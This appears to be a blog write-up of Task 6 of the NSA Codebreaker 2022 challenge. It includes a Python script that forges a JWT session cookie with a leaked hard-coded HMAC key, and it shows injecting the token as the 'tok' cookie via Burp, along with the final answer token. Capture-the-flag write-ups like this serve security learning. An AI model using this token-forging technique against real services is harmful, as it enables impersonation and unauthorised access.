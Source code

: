 ```yaml
---
title: "NSACodebreaker2022 - Task6"
topic: "general"
tags: ["web-hacking", "software-development"]
prev: "http://localhost:1313/posts/nsacodebreaker2022-task5"
next: "http://localhost:1313/posts/nsacodebreaker2022-task7"
date: 2022-12-20T11:37:37-05:05
draft: true
---
```


# Table of Contents
1. [Task A1](http://localhost:1313/posts/nsacodebreaker2022-taska1)
2. [Task A2](http://localhost:1313/posts/nsacodebreaker2022-taska2)
3. [Task B1](http://localhost:1313/posts/nsacodebreaker2022-taskb1/)
4. [Task B2](http://localhost:1313/posts/nsacodebreaker2022-taskb2/)
5. [Task 5](http://localhost:1313/posts/nsacodebreaker2022-task5/)
6. [Task 6](#task-6)
	- [Solution](#solution)
7. [Task 7](http://localhost:1313/posts/nsacodebreaker2022-task7/)
8. [Task 8](http://localhost:1313/posts/nsacodebreaker2022-task8/)
9. [Task 9](http://localhost:1313/posts/nsacodebreaker2022-task9/)

## Task 6

- - -
###### We've found the login page on the ransomware site, but we don't know anyone's username or password. Luckily, the file you recovered from the attacker's computer looks like it could be helpful.

###### Generate a new token value which will allow you to access the ransomware site.
- - -

### Solution

The file that we've decoded seems to be a Json Web Token, or JWT for short! These can be easily used to spoof login as another user without needing their username or password. Very powerful!

We can see what information the cookie holds by copying and pasting it into [jwt.io](https://jwt.io/)

```
# The Token
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTI1NjA2ODcsImV4cCI6MTY1NTE1MjY4Nywic2VjIjoiSDBidzM5N09jUHgyMlZBa1NQSTd3c3ZaNXFuZGlTakEiLCJ1aWQiOjIyNDkyfQ.QgxdO3-_ZI3InW90GiQvOjddffZOSboRVNGWohWdWnM
```

Looking at the JWT information, we can see that the assigned expiration date of the cookie has way passed. In order to recreate a valid cookie, we can make use of our scripting skills! Luckily for us, the `util.py` script from the source code we've capture earlier has some important information we can use to generate our own valid JWT token, such as the hard coded `hmack_key`.

```python
#!/usr/bin/env python3 

import jwt 
import time
from datetime import datetime, timedelta

token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjEwMDY0MjYsImV4cCI6MTY2MTA5Mjc5NCwic2VjIjoiSDBidzM5N09jUHgyMlZBa1NQSTd3c3ZaNXFuZGlTakEiLCJ1aWQiOjIyNDkyfQ.mYmRxGmRR6QwhfZ_ZljSarJILmbJMUFNvrnlyinN6h8"

def hmac_key():
	return "R7RNY65GilmD4Hbw9ckndVcZ4QBpbUmA"

def validate_token(token):
	try:
		claims = jwt.decode(token, hmac_key(), algorithms=['HS256'])
		print(claims)
	except:
		print("OOF!")

def generate_token(uid, secret):
	now = datetime.now()
	exp = now + timedelta(days=30)
	claims = {'iat': now,
			  'exp': exp,
			  'uid': uid,
			  'sec': secret}
	return jwt.encode(claims, hmac_key(), algorithm='HS256')


import codecs
hex_str = "48 30 62 77 33 39 37 4F 63 50 78 32 32 56 41 6B 53 50 49 37 77 73 76 5A 35 71 6E 64 69 53 6A 41"
hex_str = hex_str.split(" ")
hex_str = "".join(hex_str)
hex_str = codecs.decode(hex_str, "hex").decode('utf-8')

token = generate_token("22492", hex_str)
print(f"==== GENERATED TOKEN ====\n\n {token} \n\n")
validate_token(token)
```

Running this script should give us a valid JWT token.

```
==== GENERATED TOKEN ====

 eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjA5OTI2NDUsImV4cCI6MTY2MzU4NDY0NSwidWlkIjoiMjI0OTIiLCJzZWMiOiJIMGJ3Mzk3T2NQeDIyVkFrU1BJN3dzdlo1cW5kaVNqQSJ9.jhO2T7ZJXOK_9d84l2H8FoABgs3QRPf0ZOUNN237HRg 


{'iat': 1660992645, 'exp': 1663584645, 'uid': '22492', 'sec': 'H0bw397OcPx22VAkSPI7wsvZ5qndiSjA'}
 gC4Zcze36Mo0G9hY89MavH0XU213mF
```

We can see in the source code of the server that the cookie name used for validation is `tok`. Using `Burp` we can easily capture any outgoing data and replace/add a cookie called `tok` with our newly valid JWT token generated above. 

The correct answer:

The cookie you generate at the time, which for my case was:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjA5OTI2NDUsImV4cCI6MTY2MzU4NDY0NSwidWlkIjoiMjI0OTIiLCJzZWMiOiJIMGJ3Mzk3T2NQeDIyVkFrU1BJN3dzdlo1cW5kaVNqQSJ9.jhO2T7ZJXOK_9d84l2H8FoABgs3QRPf0ZOUNN237HRg`

![Task 6 Badge](/posts/badge6.png "Task 6 Badge")

- - -